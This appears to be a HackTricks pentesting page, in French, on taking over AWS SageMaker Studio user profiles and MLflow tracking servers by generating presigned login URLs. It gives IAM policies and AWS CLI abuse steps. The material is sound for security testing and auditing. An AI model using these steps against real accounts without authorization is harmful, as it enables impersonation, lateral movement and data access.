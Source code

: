 # AWS - SageMaker Accès non autorisé

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Prise de contrôle de compte via CreatePresignedDomainUrl (Se faire passer pour n'importe quel UserProfile)

### Description
Une identité disposant de la permission d'appeler `sagemaker:CreatePresignedDomainUrl` sur un `UserProfile` ciblé de Studio peut générer une URL de connexion qui authentifie directement dans SageMaker Studio en tant que ce profil. Cela accorde au navigateur de l'attaquant une session Studio qui hérite des permissions `ExecutionRole` du profil et l'accès complet au répertoire utilisateur monté sur EFS et aux apps du profil. Aucun `iam:PassRole` ni accès à la console n'est requis.

### Requirements
- Un SageMaker Studio `Domain` et un `UserProfile` cible à l'intérieur.
- Le principal attaquant doit avoir `sagemaker:CreatePresignedDomainUrl` sur le `UserProfile` cible (au niveau de la ressource) ou `*`.

Exemple de policy minimal (restreint à un seul UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Étapes d'abus

1) Énumérer un Studio Domain et des UserProfiles que vous pouvez cibler
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Générer une presigned URL (valide ~5 minutes par défaut)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Ouvrez l'URL retournée dans un navigateur pour vous connecter à Studio en tant qu'utilisateur cible. Dans un terminal Jupyter à l'intérieur de Studio, vérifiez l'identité effective :
```bash
aws sts get-caller-identity
```
Notes:
- `--landing-uri` peut être omis. Certaines valeurs (par ex., `app:JupyterLab:/lab`) peuvent être rejetées selon la variante/version de Studio; les valeurs par défaut redirigent généralement vers la page d'accueil de Studio puis vers Jupyter.
- Les politiques d'organisation / les restrictions d'endpoint VPC peuvent toujours bloquer l'accès réseau; la génération du token ne nécessite pas de connexion console ni `iam:PassRole`.

### Impact
- Mouvement latéral et escalade de privilèges en assumant n'importe quel Studio `UserProfile` dont l'ARN est autorisé, héritant ainsi de son `ExecutionRole` et de son système de fichiers/applications.

### Preuves (d'un test contrôlé)
- Avec uniquement `sagemaker:CreatePresignedDomainUrl` sur un `UserProfile` cible, le rôle attaquant a renvoyé avec succès un `AuthorizedUrl` comme :
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Une requête HTTP directe répond par une redirection (HTTP 302) vers Studio, confirmant que l'URL est valide et active jusqu'à expiration.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Description
Une identité disposant de la permission d'appeler `sagemaker:CreatePresignedMlflowTrackingServerUrl` pour un SageMaker MLflow Tracking Server cible peut générer une URL pré-signée à usage unique qui authentifie directement sur l'interface MLflow gérée de ce serveur. Cela accorde le même accès qu'un utilisateur légitime au serveur (visualiser/créer des expériences et des exécutions, et télécharger/téléverser des artefacts dans le magasin d'artefacts S3 du serveur) sans accès à la console ni `iam:PassRole`.

### Prérequis
- Un SageMaker MLflow Tracking Server dans le compte/la région, et connaître son nom.
- Le principal attaquant a besoin de `sagemaker:CreatePresignedMlflowTrackingServerUrl` sur la ressource MLflow Tracking Server cible (ou `*`).

Minimal policy example (scoped to one Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Étapes d'abus

1) Énumérez les MLflow Tracking Servers que vous pouvez cibler et choisissez un nom
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Générer une URL MLflow UI pré-signée (valide pendant une courte durée)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Ouvrez l'URL retournée dans un navigateur pour accéder à l'UI MLflow en tant qu'utilisateur authentifié pour ce Tracking Server.

Remarques :
- Le Tracking Server doit être dans un état prêt (par ex., `Created/Active`). S'il est encore en `Creating`, l'appel sera rejeté.
- L'URL pré-signée est à usage unique et de courte durée ; générez-en une nouvelle si nécessaire.

### Impact
- Accès direct à l'UI MLflow gérée pour le Tracking Server ciblé, permettant la consultation et la modification des experiments/runs et la récupération ou le téléversement d'artefacts stockés dans le S3 artifact store configuré du serveur, dans les limites des permissions appliquées par la configuration du serveur.

{{#include ../../../../banners/hacktricks-training.md}}
